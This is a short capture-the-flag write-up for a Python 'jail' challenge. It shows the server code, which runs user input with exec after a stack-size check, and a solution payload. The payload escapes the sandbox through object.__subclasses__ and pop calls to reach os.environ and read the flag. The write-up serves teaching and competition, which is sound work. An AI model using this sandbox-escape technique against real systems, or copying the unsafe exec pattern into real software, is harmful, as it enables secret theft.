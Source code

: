 # stackless jail

made by other quasar and A~Z

## challenge

server.py
```py
import dis
del __builtins__.__dict__['breakpoint']
del __builtins__.__dict__['help']

print("Welcome to the python calculator!", "Pls No Steal My Flag Which Is In An Environment Variable :<", sep='\n')

if __name__ == '__main__':
    try:
        math = input('> ')
        info = dis.code_info(math).split("\n")
        assert "Stack size:        1" in info

        exec(math, {}, results := {})
        for var, res in results.items():
            print(f"{var} = {res}")
    except:
        print("smh")

# Server: python 3.8
```

## solution

```py
payload = [
    'x = object.__subclasses__',
    '_ = x()',
    'x = _.pop'
] + ['x()']*36 + [
    '_ = x()', # os._wrap_close
    'x = _.__init__.__globals__.values',
    '*_, = x()',
    'x = _.pop'
] + ['x()']* 196 + [
    '_ = x()'  # os.environ
]

print(*payload, sep=';')
```

Repeatedly call pop to traverse lists, and use \\r (or `;`) to submit multiple lines inside of the one input.

